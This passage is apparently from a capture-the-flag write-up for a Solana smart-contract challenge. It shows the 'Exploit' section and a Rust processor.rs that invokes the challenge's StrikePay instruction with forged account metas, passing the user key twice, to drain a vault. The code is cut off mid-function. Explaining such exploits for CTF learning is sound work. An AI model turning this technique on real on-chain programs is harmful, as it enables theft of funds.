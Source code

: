 
### 3. The Exploit

Now we can just compile our solve script and sent it using the solve.py script provided. We based our solve script on the scripts provided in the repo of the framework used (https://github.com/neodyme-labs/solana-poc-framework). We also had to compile using the versions and commands mentioned in the debug section.

So we build a rust project that used the same dependencies as the chall and included the following 2 files.



**processor.rs**
```rs
use borsh::{BorshDeserialize, BorshSerialize};

use solana_program::{
    account_info::{next_account_info, AccountInfo},
    entrypoint::ProgramResult,
    instruction::{AccountMeta, Instruction},
    program::invoke,
    pubkey::Pubkey,

    system_program,
};

//use sailors_revenge::processor::SailorInstruction;
#[derive(Debug, Clone, BorshSerialize, BorshDeserialize, PartialEq, Eq, PartialOrd, Ord)]
pub enum SailorInstruction {
    CreateUnion(u64),
    PayDues(u64),
    StrikePay(u64),
    RegisterMember([u8; 32]),
}

pub fn process_instruction(
    _program: &Pubkey,
    accounts: &[AccountInfo],
    _data: &[u8],
) -> ProgramResult {
    let account_iter = &mut accounts.iter();

    let program = next_account_info(account_iter)?;
    let user = next_account_info(account_iter)?;
    let vault = next_account_info(account_iter)?;
    let sailor_union = next_account_info(account_iter)?;
    let registration = next_account_info(account_iter)?;
    let rich_boi = next_account_info(account_iter)?;
    let system = next_account_info(account_iter)?;

    invoke(
        &Instruction::new_with_borsh(
            *program.key,
            &SailorInstruction::StrikePay(100000000),
            vec![
                AccountMeta::new(*registration.key, false),
                AccountMeta::new(*user.key, true),
                AccountMeta::new(*user.key, true),
                AccountMeta::new(*vault.key, false),
                AccountMeta::new_readonly(*system.key, false),
            ],
        ),
        &[registration.clone(), user.clone(), vault.clone(), system.clone()]
    )?;

```